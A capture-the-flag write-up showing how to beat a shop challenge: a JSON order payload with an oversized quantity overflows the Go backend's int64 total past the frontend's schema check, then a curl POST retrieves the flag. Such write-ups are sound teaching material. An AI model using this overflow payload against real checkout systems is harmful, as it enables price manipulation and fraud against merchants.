

# CTFChallengeShop
The website shows a basic shopping menu:



It's immediately obvious that our target is to trick the backend into giving us the flag. Line 52 of the frontend: source

```
resp = requests.post("http://localhost:8000/process", data=request.get_data())
```
shows us that all valid url requests are sent to ```http://localhost:8000/process```, but line 72:
```
@app.route("/process")
```
does not have any valid HTTP request methods, meaning that we have to circumvent whatever sanitization is implemented by the front end.

Here is the body of a valid request, generated by the website when buying 1 ```pwn 2``` and 1 ```crypto 2``` items:
```
{
    "cart": [
        {
            "id": 2,
            "qty": 1
        },
        {
            "id": 3,
            "qty": 1
        }
    ],
    "orderId": 0
}
```

Lines 46-52:
```
if request.method == "POST":
    data = request.get_json(force=True)
    try:
        jsonschema.validate(instance=data, schema=schema)
    except jsonschema.exceptions.ValidationError as e:
        return jsonify({"error": f"failed to validate {data}"})
    resp = requests.post("http://localhost:8000/process", data=request.get_data())
```
shows that the frontend validates our request against the schema defined on line 16:
```
schema = {
    "type": "object",
    "properties": {
        "orderId": {
            "type": "number",
            "maximum": 10,
        },
        "cart": {
            "type": "array",
            "items": {
                "type": "object",
                "properties": {
                    "id": {
                        "type": "number",
                        "minimum": 0,
                        "exclusiveMaximum": len(productDB),
                    },
                    "qty": {
                        "type": "integer",
                        "minimum": 1
                    },
                },
                "required": ["id", "qty"],
            },
        },
    },
    "required": ["orderId", "cart"],
}
```
This schema reveals a couple pieces of useful restrictions:
1. id >= 0
2. qty >= 1

Line 25 of the backend reveals that the price is calculated using an int64 type:
```
total = total + productDB[id]["price"].(int64) * qty
```
Our goal is to make the ```total``` variable less than ```1000```.

Rule #2 above means that we can't set the ```qty``` to 0, but we can likely use an integer overflow to trick the backend into setting total to less than 0. ```int64``` types in Go have a maximum size of ```9223372036854775807```. We can use the following payload to get past the sanitization implemented in the frontend, and have it flip to a negative number in the backend.
```
{
	"cart": [
		{
			"id": 10,
			"qty": 9223372036854775808
		}
		],
	"orderId": 0
}
```

Using ```curl -X POST -H "Content-Type: application/json" -d @payload.json https://ctfchallengeshop.fly.dev/```, this reveals the flag.